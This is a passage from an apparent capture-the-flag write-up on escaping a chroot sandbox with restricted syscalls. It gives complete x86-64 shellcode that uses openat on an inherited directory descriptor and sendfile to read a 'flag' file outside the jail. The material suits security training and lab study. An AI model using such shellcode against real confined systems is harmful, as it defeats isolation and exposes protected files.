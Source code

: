 ```
flag:
	.string "flag"
```

&nbsp;

## level 4
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "openat", "read", "write", "sendfile".

- We could very well use the previous level's code but let's try something new.
- The `sendfile` command is a combination of the `read` and `write` system calls. It's also more efficient as it does not require data to be transferred to and from user space.
- It takes the following arguments:
```
ssize_t sendfile(int out_fd, int in_fd, off_t *_offset, size_t _count);
```
- In our case the `out_fd` will be `1` for STDOUT.
```
# Sendfile syscall
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 0x28
syscall
```
- Replace the `read` and `write` syscalls with the above code.

```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```
